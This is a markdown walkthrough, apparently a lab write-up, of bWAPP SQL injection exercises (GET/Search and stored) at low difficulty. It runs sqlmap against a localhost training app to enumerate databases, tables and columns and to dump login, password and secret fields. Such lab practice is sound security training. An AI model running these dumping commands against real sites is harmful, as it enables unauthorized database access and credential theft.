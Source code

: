 # BWAPP SQL injection(GET/Search) - Low difficulty
- manual selection
![image](img/BWAPP_SQLIGetSearch_Command_LOW.png) <br/>

#### SQLMAP on Windows 10
- using sqlmap to get databases
```
python sqlmap.py -u "http://127.0.0.1/bwapp/bwapp/sqli_1.php?title=Iron" --cookie="PHPSESSID=bn95i1n9988g4dqlkhkss0i7km; security_level=0" --dbs
```
- focus on bwapp database, get tables
```
python sqlmap.py -u "http://127.0.0.1/bwapp/bwapp/sqli_1.php?title=Iron" --cookie="PHPSESSID=bn95i1n9988g4dqlkhkss0i7km; security_level=0" -D bwapp --tables
```
- get columns from table heroes
```
python sqlmap.py -u "http://127.0.0.1/bwapp/bwapp/sqli_1.php?title=Iron" --cookie="PHPSESSID=bn95i1n9988g4dqlkhkss0i7km; security_level=0" -D bwapp -T heroes --columns
```
- get login password and secret from heroes table and save to file
```
python sqlmap.py -u "http://127.0.0.1/bwapp/bwapp/sqli_1.php?title=Iron" --cookie="PHPSESSID=bn95i1n9988g4dqlkhkss0i7km; security_level=0" -D bwapp -T heroes -C login, password, secret --dump
```
- result:
![image](img/BWAPP_SQLIGetSearch_SQLMAP_result_LOW.png) <br/>

## SQL Injection - Stored

#### manual
![image](img/BWAPP_SQLISTORE_Command_LOW.png) <br/>

![image](img/BWAPP_SQLISTORE_Command_Result_LOW.png)

#### SQLMAP WIN 10
getting database list
```
python sqlmap.py -u "http://127.0.0.1/bwapp/bwapp/sqli_1.php?title=Iron" --data="entry=test&blog=add" --cookie="PHPSESSID=rqjh7f860vensfb8mve067vo7v; security=low; security_level=0" --dbs
```
get tables from bwapp
```
python sqlmap.py -u "http://127.0.0.1/bwapp/bwapp/sqli_1.php?title=Iron" --data="entry=test&blog=add" --cookie="PHPSESSID=rqjh7f860vensfb8mve067vo7v; security=low; security_level=0" -D bwapp --tables
```
get columns from heroes table
```
python sqlmap.py -u "http://127.0.0.1/bwapp/bwapp/sqli_1.php?title=Iron" --data="entry=test&blog=add" --cookie="PHPSESSID=rqjh7f860vensfb8mve067vo7v; security=low; security_level=0" -D bwapp -T heroes --columns
```
get login password and secret 
```
python sqlmap.py -u "http://127.0.0.1/bwapp/bwapp/sqli_1.php?title=Iron" --data="entry=test&blog=add" --cookie="PHPSESSID=rqjh7f860vensfb8mve067vo7v; security=low; security_level=0" -D bwapp -T heroes -C login,password,secret --dump
```